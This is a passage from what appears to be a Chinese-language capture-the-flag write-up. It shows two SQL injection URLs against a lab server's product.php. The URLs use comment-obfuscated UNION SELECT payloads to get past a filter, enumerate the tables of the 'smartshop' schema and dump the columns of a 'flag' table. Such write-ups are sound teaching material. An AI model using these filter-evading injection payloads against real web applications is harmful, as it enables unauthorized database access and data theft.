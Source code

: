 提示中flag在数据库里面，通过limit查其他的表：

```
http://172.16.8.8/product.php?id=12'/*%!AA*/union/*%!AA*/select/*%!AA*/1,table_name,3,4,5,6/*c'*/from/*c'*/information_schema.tables/*%!AA*/where/*%!AA*/table_schema=0x736D61727473686F70 limit 0,6-- -
```

![](/images/2018-half-year-wp/8.png)

爆字段：

```
http://172.16.8.8/product.php?id=12'/*%!AA*/union/*%!AA*/select/*%!AA*/1,group_concat(column_name),3,4,5,6/*c'*/from/*c'*/information_schema.columns/*%!AA*/where/*%!AA*/table_name=0x666C6167 -- -
```

![](/images/2018-half-year-wp/9.png)
